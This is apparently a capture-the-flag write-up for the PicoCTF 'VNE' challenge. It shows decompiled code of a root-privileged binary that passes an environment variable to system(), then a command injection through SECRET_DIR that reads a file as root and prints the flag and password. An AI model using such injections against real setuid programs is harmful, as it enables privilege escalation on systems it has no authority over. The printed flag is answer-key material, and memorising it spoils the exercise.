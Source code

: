 ```yaml
---
title: PicoCTF - VNE
tags: [PicoCTF, PWN, CTF]

category: "Security > Practice > PicoCTF > PWN"
---
```


# PicoCTF - VNE
## Background
System Environment
Command Injection

## Description & Hint
We've got a binary that can list directories as root, try it out !! ssh to saturn.picoctf.net:53176, and run the binary named "bin" once connected. Login as ctf-player with the password, d137d16e
* Hint 1: Have you checked the content of the /root folder
* Hint 2: Find a way to add more instructions to the ls

## Source Code
:::spoiler IDA Main Function
```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rax
  int v4; // ebx
  __int64 v5; // rax
  __int64 v6; // rax
  __int64 v7; // rax
  const char *v8; // rax
  __int64 v9; // rax
  __int64 v10; // rax
  char v12; // [rsp+3h] [rbp-6Dh] BYREF
  unsigned int v13; // [rsp+4h] [rbp-6Ch]
  char *v14; // [rsp+8h] [rbp-68h]
  char v15[32]; // [rsp+10h] [rbp-60h] BYREF
  char v16[40]; // [rsp+30h] [rbp-40h] BYREF
  unsigned __int64 v17; // [rsp+58h] [rbp-18h]

  v17 = __readfsqword(0x28u);
  v14 = getenv("SECRET_DIR");
  if ( v14 )
  {
    v5 = std::operator<<<std::char_traits<char>>(&std::cout, "Listing the content of ");
    v6 = std::operator<<<std::char_traits<char>>(v5, v14);
    v7 = std::operator<<<std::char_traits<char>>(v6, " as root: ");
    std::ostream::operator<<(v7, &std::endl<char,std::char_traits<char>>);
    std::allocator<char>::allocator(&v12);
    std::string::basic_string(v16, v14, &v12);
    std::operator+<char>(v15, "ls ", v16);
    std::string::~string(v16);
    std::allocator<char>::~allocator(&v12);
    setgid(0);
    setuid(0);
    v8 = (const char *)std::string::c_str(v15);
    v13 = system(v8);
    if ( v13 )
    {
      v9 = std::operator<<<std::char_traits<char>>(&std::cerr, "Error: system() call returned non-zero value: ");
      v10 = std::ostream::operator<<(v9, v13);
      std::ostream::operator<<(v10, &std::endl<char,std::char_traits<char>>);
      v4 = 1;
    }
    else
    {
      v4 = 0;
    }
    std::string::~string(v15);
  }
  else
  {
    v3 = std::operator<<<std::char_traits<char>>(&std::cerr, "Error: SECRET_DIR environment variable is not set");
    std::ostream::operator<<(v3, &std::endl<char,std::char_traits<char>>);
    return 1;
  }
  return v4;
}
```
:::
## Recon
這一題也是蠻有趣的，題目有說要先執行bin，可以用winscp遠端把執行檔dump到local端，然後用IDA逆一下，就會發現它其實就是執行ls而已，所以我們就要用簡單的command injection達到RCE
## Exploit
```bash
$ ssh ctf-player@saturn.picoctf.net -p 58395
$ ./bin
Error: SECRET_DIR environment variable is not set
$ export SECRET_DIR=/challenge/
$ ./bin
Listing the content of /challenge/ as root:
config-box.py  metadata.json  profile
$ export "SECRET_DIR=/;cat /challenge/metadata.json"
$ ./bin
Listing the content of /;cat /challenge/metadata.json as root:
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
{"flag": "picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}", "password": "d137d16e"}
```

Flag: `picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}`